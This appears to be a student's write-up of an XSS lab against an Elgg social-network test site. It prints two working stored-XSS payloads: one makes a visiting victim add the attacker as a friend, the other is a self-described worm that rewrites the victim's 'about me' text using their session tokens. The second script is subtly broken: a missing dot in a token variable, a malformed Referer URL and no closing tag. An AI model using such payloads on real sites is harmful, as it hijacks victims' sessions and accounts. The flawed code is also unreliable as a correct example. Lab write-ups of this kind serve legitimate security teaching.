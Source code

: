 For this we can use the following code in javascript using AJAX and then store it into the 'about me' section of `user11`. The code is as follows -
```js
<script type="text/javascript">
var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=43"+ts+token;
Ajax=new XMLHttpRequest();
Ajax.open("GET",sendurl,true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Keep-Alive","300");
Ajax.setRequestHeader("Connection","keep-alive");
Ajax.setRequestHeader("Referer","http://www.xsslabelgg.com/profile/user11");
Ajax.setRequestHeader("Cookie",document.cookie);
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
Ajax.send();
</script\>
```
This code forms the GET request to duplicate the add friend action of the web app. When the victim say `alice` views the homepage of the attacker `user11`, her browser will read this code and execute the javascript inside the tags. Since the user `alice` is logged in while the code is executed, the attack will run smoothly and `user11` will be added to the friend list of `alice`.

### Task 5 : Writing an XSS worm
This task is about coding a worm which can change the information of an account in the web app. This requires the analysis of changing the 'about me' section in the web app. The attacker `user11` uses the other account `samy` to update the 'about me' section to study the process. The 'inspect element' reveals that the process is a POST request which requires few parameters from the document. These parameters are specific to the session and the user, therefore, searching the parameters in the document, they are set as follows -
1. timestamp and token i.e., `__elgg_ts` and `__elgg_token` are stored in the document under `elgg.security.token` section in the html document.
2. user name of the session user is in JSON format variable called `elgg.session.user`.
3. guid of the session user is also in the `elgg.session.user` section.
4. the parameter `description` is the one that specifies what data is stored in the text field of the 'about me' section.
5. the `description` parameter has a control access field called `accesslevel[description]` which is 2 for private users, 1 for friends, 0 for others - has to be set to 2 always for changing the data in the 'about me' section.

The objective is to write a javascript code in the 'about me' section of `user11` such that when someone visits the profile of `user11`, the status as required by `user11` which is also set on his own account will be set on the account of the one who visits `user11`'s page. The javascript code must contain the post request required to proceed with the changing of the text in the 'about me' section. The code is as follows -
```js
<script type="text/javascript">
var sendurl="http://www.xsslabelgg.com/action/profile/edit";
var ts=elgg.security.token__elgg_ts;
var token=elgg.security.token.__elgg_token;
ff=new XMLHttpRequest();
ff.open("POST",sendurl,true);
ff.setRequestHeader("Host","www.xsslabelgg.com");
ff.setRequestHeader("Keep-Alive","300");
ff.setRequestHeader("Connection","keep-alive");
ff.setRequestHeader("Cookie",document.cookie);
ff.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
ff.setRequestHeader("Referer","http://www.xsslabelgg.com/profile"+elgg.session.user["username"]+"/edit");
params="__elgg_ts="+ts+"&__elgg_token="+token+"&description=User-11-is-great"+"&name="+elgg.session.user["username"]+"&accesslevel[description]=2&guid="+elgg.session.user["guid"];
ff.send(params);
```